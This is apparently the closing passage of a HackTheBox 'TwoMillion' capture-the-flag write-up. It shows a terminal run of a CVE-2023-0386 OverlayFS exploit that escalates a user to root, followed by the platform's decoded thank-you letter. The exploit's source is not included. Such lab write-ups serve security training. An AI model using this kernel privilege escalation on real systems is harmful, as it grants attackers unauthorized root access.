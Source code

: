 ```bash
admin@2million:~/CVE-2023-0386$ ./exp
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 Aug 18 10:24 .
drwxrwxr-x 6 root   root     4096 Aug 18 10:24 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@2million:~/CVE-2023-0386# whoami
root
```

## thankyou_json.txt

This is what the text resolves to:

```
Dear HackTheBox Community,

We are thrilled to announce a momentous milestone in our journey together. With immense joy and gratitude, we celebrate the achievement of reaching 2 million remarkable users! This incredible feat would not have been possible without each and every one of you.

From the very beginning, HackTheBox has been built upon the belief that knowledge sharing, collaboration, and hands-on experience are fundamental to personal and professional growth. Together, we have fostered an environment where innovation thrives and skills are honed. Each challenge completed, each machine conquered, and every skill learned has contributed to the collective intelligence that fuels this vibrant community.

To each and every member of the HackTheBox community, thank you for being a part of this incredible journey. Your contributions have shaped the very fabric of our platform and inspired us to continually innovate and evolve. We are immensely proud of what we have accomplished together, and we eagerly anticipate the countless milestones yet to come.

Here's to the next chapter, where we will continue to push the boundaries of cybersecurity, inspire the next generation of ethical hackers, and create a world where knowledge is accessible to all.

With deepest gratitude,

The HackTheBox Team
```

---
